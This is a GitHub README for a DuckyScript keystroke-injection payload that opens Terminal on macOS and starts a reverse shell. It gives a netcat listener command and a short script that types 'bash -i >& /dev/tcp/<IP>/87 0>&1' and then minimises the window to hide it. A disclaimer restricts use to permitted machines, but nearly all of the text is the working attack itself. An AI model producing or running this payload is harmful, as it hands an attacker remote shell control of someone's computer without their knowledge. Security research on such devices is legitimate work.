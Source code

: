 # Ducky-Rev-Shell
Duckyscript in a bash file to get a reverse shell on MacOS.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## About
Version 1.0
<br>Author: samamsa7

## Setting up Listener
Listener set up command for Windows.
Run 
  <code><pre>nc -lvnp 87 -s 173.255.247.6</pre></code>
in Powershell, replacing the IP and port with relevant ones.

## DuckyScript Code
<code><pre>DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.5/87 0>&1
REM Replace IP and port above with listening host
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
</pre></code>
